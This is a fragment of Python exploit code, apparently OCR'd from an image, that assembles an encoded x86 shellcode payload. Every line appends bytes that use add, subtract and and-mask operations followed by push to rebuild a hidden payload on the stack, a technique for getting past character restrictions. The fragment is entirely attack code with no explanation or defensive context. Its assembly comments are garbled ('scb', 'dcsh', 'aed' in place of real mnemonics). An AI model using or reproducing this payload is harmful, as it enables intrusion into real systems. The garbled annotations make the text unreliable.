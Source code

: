 ```python
shellcode += "\x05\x43\x33\x45\x51" ## add  eax, 0x51453343
shellcode += "\x2D\x33\x33\x33\x33" ## scb  eax, 0x33333333
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x62\x76\x44\x66" ## add  eax, 0x66447662
shellcode += "\x05\x62\x65\x43\x55" ## add  eax, 0x55436562
shellcode += "\x05\x42\x54\x33\x64" ## add  eax, 0x64335442
shellcode += "\x2D\x33\x33\x33\x33" ## scb  eax, 0x33333333
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x76\x14\x66\x67" ## add  eax, 0x67661476
shellcode += "\x05\x65\x24\x55\x66" ## add  eax, 0x66552465
shellcode += "\x05\x56\x14\x44\x45" ## add  eax, 0x45441456
shellcode += "\x2D\x33\x33\x33\x33" ## scb  eax, 0x33333333
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x33\x65\x70\x77" ## add  eax, 0x77706533
shellcode += "\x05\x42\x54\x70\x67" ## add  eax, 0x67705442
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x54\x26\x72\x43" ## add  eax, 0x43722654
shellcode += "\x05\x44\x15\x61\x33" ## add  eax, 0x33611544
shellcode += "\x05\x44\x23\x52\x32" ## add  eax, 0x32522344
shellcode += "\x2D\x33\x33\x33\x33" ## scb  eax, 0x33333333
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x12\x14\x13\x03" ## add  eax, 0x03131412
shellcode += "\x05\x01\x14\x12\x04" ## add  eax, 0x04121401
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x64\x36\x66\x73" ## add  eax, 0x73663664
shellcode += "\x05\x54\x36\x55\x62" ## add  eax, 0x62553654
shellcode += "\x05\x63\x24\x43\x52" ## add  eax, 0x52432463
shellcode += "\x2D\x33\x33\x33\x33" ## scb  eax, 0x33333333
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x15\x02\x45\x22" ## add  eax, 0x22450215
shellcode += "\x05\x04\x01\x45\x11" ## add  eax, 0x11450104
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x61\x57\x52\x76" ## add  eax, 0x76525761
shellcode += "\x05\x61\x46\x42\x65" ## add  eax, 0x65424661
shellcode += "\x05\x41\x45\x42\x53" ## add  eax, 0x53424541
shellcode += "\x2D\x33\x33\x33\x33" ## scb  eax, 0x33333333
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x15\x16\x31\x51" ## add  eax, 0x51311615
shellcode += "\x05\x05\x16\x30\x50" ## add  eax, 0x50301605
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x17\x32\x65\x31" ## add  eax, 0x31653217
shellcode += "\x05\x26\x31\x54\x32" ## add  eax, 0x32543126
shellcode += "\x05\x15\x22\x44\x21" ## add  eax, 0x21442215
```